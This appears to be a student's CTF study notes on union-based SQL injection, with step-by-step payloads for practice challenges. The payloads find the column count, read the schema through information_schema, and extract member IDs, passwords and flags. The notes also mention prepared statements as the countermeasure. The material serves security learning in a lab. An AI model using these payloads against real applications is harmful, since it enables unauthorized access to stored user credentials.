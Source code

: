 # Union SQL Injection

## Part 1. How to solve CTF
1. You have to find the reason for the problem.
2. check step by step - debugging
3. [Beginners Guide to Web Hacking CTFs](https://medium.com/@isaacwangethi30/beginners-guide-to-web-hacking-ctfs-9ef04e7c5df5)

## Part 2. CTF Solution
1. Admin is mine
- It blocks the login page on JavaScript.
2. Burp Suite = how to modify the response
3. Countermeasure of SQL Injection = Prepared Statement

## Part 3. SQL Injection - Data Extraction
1. The place where we use data in the database
2. The data display or not
- Display = Board
- Not display = login, ID double check
3. Data Extraction
- It brings all data, but it cannot bring other tables
```javascript
select * from board where idx= '______' or '1' = '1'
```
- union  = it can use the select function again, and the column number must be the same
ex) select pass from member union select id from member
ex) select id, pass from member union select 1,2
- order by = sort
ex) select ~~~ order by [column name]
ex) select id from member order by id

## Part 4. Union SQL Injection
- Union SQL Injection Process
1. Find out the point of the SQL Injection
* Type the part of words
```javascript
select * from table where name like '%______%'
```
```javascript
over%' and '1%' = '1
```
2. Find the number of Columns
* Find out how many columns it is to type sequence numbers
```javascript
over%' order by 1 #
```
3. Find the number of print column location
* It shows the displayed numbers
```javascript
over%' union select 1,2,3,4 #
```
* select pass from member
```javascript
over%' union select 1,pass,3,4 #
```
4. Find DB name: segault_sql
```javascript
select database()
over%' union select 1,database(),3,4 #
```
5. Find Table name
```javascript
information_schema.tables
select table_name from information_schema.tables where table_schema = 'DB Name'
over%' union select 1,table_name,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
6. Find Column name
```javascript
select column_name from information_schema.columns where table_name = 'table name'
over%' union select 1,column_name,3,4 from information_schema.columns where table_name = 'member' #
```
7. Find Data
```javascript
select id, pass from member
over%' union select 1, id, pass, 4 from member
```

## Part 5 - Assignment
1. Review Union SQL Injection (HTTP://ctf.segfaulthub.com:1020/sqlInjection3.php)

2. dol dol data (only one result) (HTTP://ctf.segfaulthub.com:1020/sqlInjection_2_1.php)<br>

a. Find out the point of the SQL Injection
```javascript
1234' or '1' ='1
```
b. Find the number of columns
```javascript
1234' order by 4 #
```
c. Find the number of print column locations
```javascript
1234' union select 1,2,3,4 #
```
d. Find DB name
```javascript
1234' union select database(),2,3,4 #
```
e. Find Table name
```javascript
1234' union select table_name,2,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
f. Find column name
```javascript
1234' union select column_name,2,3,4 from information_schema.columns where table_name = 'member' #
```
g. Find Data
```javascript
0000' union select id,pass,email,info from member where id = 'doldol' #
```

3. CTF questions<br>
* SQL Injection 1 <br>
a. Find out the point of the SQL Injection
```javascript
ad%' and 1=1 #
```
b. Find out the number of columns
```javascript
ad%' order by 4 #
```
C. Find out the number of print column locations
```javascript
ad%' union select 1,2,3,4 #
```
d. Find DB name
```javascript
ad%' union select database(),2,3,4 #  => 	sqli_1
```
e. Find table name
```javascript
ad%' union select table_name,2,3,4 from information_schema.tables where table_schema = 'sqli_1' #
```
f. Find column name
```javascript
ad%' union select column_name,2,3,4 from information_schema.columns where table_name = 'flag_table' #
```
g. Find data
```javascript
ad%' union select flag, 2, 3, 4 from flag_table #
```

* SQL Injection <br>
a. The point? = When I typed nomaltic, the information showed "My name is normaltic", but when I typed "admin", it doesn't show anything. Which means, depending on the name, the information changes. So, when it tried SQL injection "admin' or '1", it showed "my name is normaltic"
b. The number of columns?
```javascript
admin' order by 6 #
```
c. location?
```javascript
admin' union select 1,2,3,4,5,6 #   => only showing "6"
```
d. database?
```javascript
admin' union select 1,2,3,4,5,database() #    => sqli_5
```
e. table? = flag_honey
```javascript
admin' union select 1,2,3,4,5,table_name from information_schema.tables where table_schema = 'sqli_5' #     
```
f. column name? = flag
```javascript
admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'flag_honey' #
```
g. data? = kkkkkkk_Not Here!
```javascript
admin' union select 1,2,3,4,5,flag from flag_honey #
```
h. other data?
```javascript
admin' union SELECT 1, 2, 3, 4, 5, group_concat(table_name) from information_schema.tables where table_schema = 'sqli_5' #
```
- [Find hidden information](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php)<br>
i. other data?
```javascript
admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'secret' #
```
j. other data?
```javascript
admin' union select 1,2,3,4,5,flag from secret #    => NONONO~~~~
```
k. other data?
```javascript
admin' union select 1,2,3,4,5,group_concat(flag) from secret #
```

4. Web development
- mypage
